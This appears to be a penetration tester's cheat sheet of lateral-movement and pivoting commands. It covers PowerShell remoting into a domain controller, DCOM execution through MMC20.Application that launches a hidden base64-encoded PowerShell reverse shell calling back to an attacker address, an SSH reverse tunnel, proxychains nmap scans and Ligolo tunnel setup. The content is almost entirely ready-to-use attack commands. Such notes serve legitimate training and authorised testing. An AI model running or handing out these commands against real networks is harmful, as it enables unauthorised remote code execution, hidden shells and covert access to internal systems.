 ## Powershell Remoting

```jsx
Invoke-Command -ComputerName DC01 -ScriptBlock {ipconfig}

$DC01Session = New-PSSession -ComputerName 'DC01'
Enter-PSSession -Session $DC01Session
```

## DCOM

```jsx
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

# Port Forwarding

## SSH

```jsx
ssh -N -R 9998 kali@192.168.118.4
```

```jsx
sudo ss -ntplu
```

```jsx
sudo nano /etc/proxychains4.conf
tail /etc/proxychains4.conf
--last line--> socks5 127.0.0.1 9998
```

```jsx
proxychains nmap -sn 10.4.197.0/24
```

```jsx
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```

## Ligolo

### Ligolo Setup

```jsx
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```
